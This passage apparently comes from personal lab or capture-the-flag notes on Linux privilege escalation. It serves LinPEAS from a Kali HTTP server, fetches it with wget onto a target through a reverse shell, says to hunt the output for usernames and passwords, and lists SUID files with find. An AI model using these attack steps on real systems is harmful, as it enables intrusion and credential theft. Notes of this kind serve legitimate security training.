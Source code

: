 #### Privesc LinPEAS

```bash
# Kali
cd ~/tools
python3 -m http.server 80
```

```bash
# Target reverse shell
cd /tmp
wget http://192.168.31.131/linpeas.sh
```

- Look for username and password, bottom up (red, yellow stuff)

![](3-eth-hackassets/2024-07-14_19-43-46_635.png)

- [Linux Privilege Escalation | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

```bash
# List owned files with SUID permissions

find / -type f -perm -4000 2>/dev/null
```
